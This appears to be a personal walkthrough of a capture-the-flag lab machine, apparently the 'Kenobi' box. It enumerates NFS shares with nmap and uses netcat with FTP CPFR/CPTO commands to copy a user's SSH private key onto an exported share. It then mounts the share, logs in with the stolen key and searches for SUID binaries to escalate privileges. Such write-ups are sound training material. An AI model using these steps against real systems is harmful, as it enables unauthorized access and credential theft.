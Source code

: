 We can run nmap script to enumerate it: `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.105.197`

![[Pasted image 20230919095948.png]]

This command shows directories that are available to client machines.
The `/var` directory is accessible from our attacking machine.

NOTE: we can do the same check with `showmount -e IP` -->   
elenca le condivisioni NFS (Network File System) esportate da un server NFS specifico, identificato dall'indirizzo IP specificato. NFS è un protocollo che consente di condividere file e directory su reti UNIX e UNIX-like.

## Gain access

First, we need to connect to FTP server on port 21: `nc 10.10.105.197 21`
Then, using CPFR and CPTO command we copy the ssh private key from `/home/kenobi/.ssh/id_rsa` to `/var/tmp`:

![[Pasted image 20230919103705.png]]

NOTE: Why `/var/tmp` ? Because you might not have permission to write in `/var` directory. Directories like `/tmp` or `/var/tmp` are usually the safest when it comes to accessing their content as the attacker. Usually their permissions are not restricted as much as other directories.

At this point we need to mount `/var/tmp` directory to our attacking machine. Like this:

(ON ATTACKING MACHINE)

```
# create a new folder on KALI
mkdir /mnt/kenobiNFS

# mount /var folder of victim to new folder
mount 10.10.105.197:/var /mnt/kenobiNFS
```

Now, in `/mnt/kenobiNFS` there are all files we need.
So, in `/mnt/kenobiNFS/tmp/` there is `id_rsa` that we previous copy with `CPFR` and `CPTO` commands.

We can now login with ssh: `ssh -i id_rsa kenobi@10.10.105.197`


## Privilege Escalation

We search for files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

```
find / -perm -u=s -type f 2>/dev/null
```

![[Pasted image 20230919104435.png]]

Using https://gtfobins.github.io/ we search for SUID exploits but we don't find anything.
